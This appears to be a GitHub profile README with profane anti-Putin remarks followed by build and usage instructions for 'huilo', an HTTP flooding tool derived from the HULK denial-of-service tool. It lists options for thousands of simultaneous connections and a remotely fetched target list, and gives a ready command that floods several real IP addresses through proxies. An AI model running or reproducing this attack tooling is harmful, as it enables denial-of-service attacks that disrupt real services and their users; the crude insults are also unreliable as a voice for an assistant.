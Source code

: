 - 👋 Hi, I’m @russian-boat-fuck-you
- 👀 I’m interested in fuck Putin's diplomacy
- 🌱 I’m currently learning yoha and dzen
- 💞️ I’m looking to collaborate on fuck russian boat to have a peace overall the world!
- 📫 How to reach me: I will found you when need

<!---
russian-boat-fuck-you/russian-boat-fuck-you is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

### (c) The initial idea is coming from https://github.com/grafov/hulk

#### Build an executable binary
    go build huilo.go
    
#### Usage
    ./huilo --help
    Usage of huilo:
        -t, --max-routines int      Maximum number of simultaneous connections (default 500)
        -r, --refresh duration      Screen refresh interval in seconds (default 3s)
        -s, --site site-url         Sites list. Can be used multiple times. Have precedence over sites-url if set site-url
        -u, --sites-url sites-url   URL to fetch sites list from sites-url  (default "https://hutin-puy.nadom.app/sites.json")
              
    http_proxy=10.2.3.4:5678 https_proxy=10.2.3.5:5679 socks5_proxy=10.2.3.6:5680 ./huilo --max-routines 1000 --site http://178.248.237.238 --site http://185.170.2.62 -s https://185.170.2.62 -s http://195.208.109.88 --site https://195.208.109.88
